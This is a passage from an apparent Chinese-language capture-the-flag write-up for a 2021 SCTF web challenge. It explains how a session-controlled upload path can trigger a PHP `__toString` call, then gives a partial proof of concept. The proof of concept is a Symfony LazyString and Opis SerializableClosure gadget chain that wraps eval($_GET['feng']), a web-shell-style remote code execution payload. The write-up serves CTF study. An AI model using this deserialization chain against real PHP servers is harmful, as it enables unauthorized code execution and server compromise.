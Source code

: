 ![image-20211225132347825](2021-SCTF-Web-Writeup.assets/image-20211225132347825.png)

想办法触发`__toString`即可。

发现index.php的这里：

```php
$upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
```

上传session控制`$_SESSION`即可。

POC：

```php
<?php
namespace Symfony\Component\String{

    use Opis\Closure\SerializableClosure;

    class LazyString{
        private $value;
        public function __construct(){
            $func =function (){
                eval($_GET['feng']);
            };
            $this->value = new \Opis\Closure\SerializableClosure($func);
        }
    }
}
namespace {
    include_once "./vendor/autoload.php";
    session_start();

    use Symfony\Component\String\LazyString;

    $a= new LazyString();
    $_SESSION["upload_path"] = $a;
```